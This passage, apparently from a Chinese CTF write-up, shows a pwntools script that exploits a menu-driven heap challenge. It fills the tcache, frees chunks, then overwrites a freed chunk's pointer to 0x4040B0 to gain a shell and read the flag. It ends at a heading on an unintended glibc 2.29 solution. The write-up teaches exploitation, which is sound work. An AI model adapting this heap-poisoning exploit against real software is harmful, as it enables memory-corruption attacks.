 ```
    gdb.attach(sh)
    if stop :
        raw_input()

def creat(sh,index):
    sh.recvuntil('your choice?')
    sh.sendline('1')
    sh.recvuntil('idx?')
    sh.sendline(str(index))

def edit(sh,index,value):
    sh.recvuntil('your choice?')
    sh.sendline('2')
    sh.recvuntil('idx?')
    sh.sendline(str(index))
    sh.sendline(value)

def delete(sh,index):
    sh.recvuntil('your choice?')
    sh.sendline('3')
    sh.recvuntil('idx?')
    sh.sendline(str(index))

if __name__ == "__main__":
    sh = get_sh()

    for i in range(7):
        creat(sh,i)
    for i in range(7,9):
        creat(sh,i)

    for i in range(7):
        delete(sh,i)
    for i in range(7,9):
        delete(sh,i)

    creat(sh,9)
    edit(sh,8,p64(0x4040B0))
    sh.interactive()
    flag=get_flag(sh)
    log.success('The flag is '+flag)
```

### <a class="reference-link" name="Glibc2.29%E4%B8%8B%E7%9A%84%E9%9D%9E%E9%A2%84%E6%9C%9F%E8%A7%A3"></a>Glibc2.29下的非预期解

在glibc-2.29下，chunk在free时加入了以下代码：

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-24-023301.png)
